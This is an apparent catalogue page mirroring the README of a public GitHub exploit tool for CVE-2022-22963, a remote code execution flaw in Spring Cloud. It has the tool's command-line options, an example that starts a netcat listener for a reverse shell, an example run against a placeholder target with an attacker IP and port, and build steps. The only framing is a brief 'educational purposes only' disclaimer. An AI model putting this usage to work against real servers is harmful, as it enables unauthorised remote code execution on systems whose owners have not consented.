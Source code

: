 # CVE-2022-22963

Binaries for CVE-2022-22963

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gunzf0x](https://github.com/gunzf0x) |
| Url      | [https://github.com/gunzf0x/CVE-2022-22963](https://github.com/gunzf0x/CVE-2022-22963)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-22963* exploits* spring-cloud* vulnerability

</details>

## Readme

# CVE-2022-22963

Remote Code Execution exploiting CVE-2022-22963 attacking Spring Cloud service.

**Disclamier: This is for educational purposes only. The author is not responsible for the use of this program. Use under your own risk**


## Usage
```sh
./CVE-2022-22963 -h


Usage:
  CVE-2022-22963 [OPTIONS]

Application Options:
  -u, --target-url=     Target/Host url where 'Spring Cloud' is running. Example: -t http://somesite.htb
  -p, --target-port=    Port running the service. Example: -p 8080
  -i, --attacker-ip=    Attacker IPv4 Address. Example: -i 10.10.10.10
  -l, --listening-port= Listening port to connect. Example: -l 1337

Help Options:
  -h, --help            Show this help message
```

Assume a possible vulnerable target is running at `http://somerandomserver.com:8080`. Start `nc` listening on the port `1337`, so we run `nc -lvnp 1337`. Then, run the script/exploit:
```sh
./CVE-2022-22963 -u http://somerandomserver.com -p 8080 -i 10.10.10.10 -l 1337 
```

## Build from source
If you have `go` installed in your machine, just do:
```sh
git clone https://github.com/GunZF0x/CVE-2022-22963.git
cd CVE-2022-22963
go run main.go -h #run without compiling any file
go build -o exploit main.go #build the file
```



## Get the content

```
git clone https://github.com/gunzf0x/CVE-2022-22963
cd CVE-2022-22963
```

{% embed url="https://github.com/gunzf0x/CVE-2022-22963" %}

<figure><img src="https://avatars.githubusercontent.com/u/31874167?v=4" alt=""><figcaption><p>gunzf0x</p></figcaption></figure>
